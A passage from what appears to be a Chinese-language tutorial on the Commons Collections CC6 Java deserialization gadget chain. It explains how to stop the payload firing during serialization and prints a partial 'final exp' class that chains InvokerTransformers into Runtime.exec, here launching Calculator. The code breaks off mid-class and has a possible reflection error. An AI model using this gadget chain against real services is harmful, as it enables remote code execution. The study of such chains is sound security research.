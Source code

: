 

**问题：**

我在打断点调试的时候发现**当我序列化的时候，就能够弹出计算器，太奇怪了**，这与 URLDNS 链中的情景其实是一模一样的。

![image-20231126143930199](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231126143930199.png)



**4. 解决在序列化的时候就弹出计算器的问题**

在我们 CC6 的链子当中，通过修改这一句语句 `Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);`，可以达到我们需要的效果。

我们之前传进去的参数是 chainedTransformer，我们在序列化的时候传进去一个没用的东西，再在反序列化的时候通过反射，将其修改回 chainedTransformer。相关的属性值在 LazyMap 当中为 factory

![image-20231126144023967](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231126144023967.png)





**最终exp：**

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC62 {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, ClassNotFoundException, IOException, NoSuchFieldException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
//        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five")); // 防止在反序列化前弹计算器

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "keykey");
//        tiedMapEntry.getKey();
        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valval");
        lazyMap.remove("keykey");  //填坑操作

//        在执行 put 方法之后通过反射修改 Transformer 的 factory 值
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factoryField = lazyMapClass.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMapClass, chainedTransformer);  //在这里设置上
```